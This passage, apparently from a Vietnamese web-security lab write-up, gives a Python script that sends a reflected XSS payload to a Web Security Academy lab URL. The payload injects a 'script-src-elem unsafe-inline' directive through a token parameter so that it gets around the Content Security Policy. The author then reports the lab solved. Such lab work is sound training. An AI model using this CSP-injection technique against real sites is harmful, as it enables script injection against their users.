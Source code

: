 mình đã viết script khai thác

```python
#!/usr/bin/python3.7
import requests
import re
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote

url = 'https://0a9700ba049c65728084c66c00cf00f4.web-security-academy.net'

payload = "<script>alert(1)</script>&token=;script-src-elem 'unsafe-inline'"
response = requests.get(
    url + "/?search=" + payload,
    verify=False,
)

soup = BeautifulSoup(response.text,'html.parser')
print(soup)
```

mục đích của chúng ta đã hoàn thành và mình cũng đã giải quyết được bài lab này

![image](https://hackmd.io/_uploads/BkrhjadcT.png)

<img  src="https://3198551054-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FVvHHLY2mrxd5y4e2vVYL%2Fuploads%2FF8DJirSFlv1Un7WBmtvu%2Fcomplete.gif?alt=media&token=045fd197-4004-49f4-a8ed-ee28e197008f">
